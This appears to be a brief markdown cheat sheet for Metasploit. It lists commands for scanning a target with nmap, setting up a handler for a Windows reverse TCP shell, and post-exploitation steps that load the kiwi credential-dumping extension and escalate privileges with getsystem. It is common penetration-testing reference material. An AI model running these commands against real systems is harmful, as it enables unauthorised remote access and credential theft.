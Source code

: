# Metasploit Usage

## Setup

```shell
sudo msfconsole
db_nmap -A <target>
```

## Handlers

```shell
use multi/handler
set payload windows/x64/shell/reverse_tcp
run -j
```

## Post Exploitation

```shell
load kiwi
getsystem
```
